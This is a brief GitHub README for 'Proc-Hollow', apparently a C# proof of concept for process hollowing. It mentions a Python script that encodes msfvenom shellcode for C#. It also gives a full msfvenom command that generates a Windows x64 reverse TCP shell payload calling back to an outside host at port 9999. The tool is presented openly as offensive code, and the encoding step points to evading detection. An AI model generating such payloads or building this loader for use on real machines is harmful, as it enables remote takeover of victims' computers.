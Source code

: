 # Proc-Hollow

C# POC for process hollowing

The included Python file (`encodeShellcode.py`) is used for turning python-formatted msfvenom shellcode into encoded csharp-formatted shellcode.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9999 LHOST=1.2.3.4 -f python -v buf
```

Binaries are not included, just open in Visual Studio and build.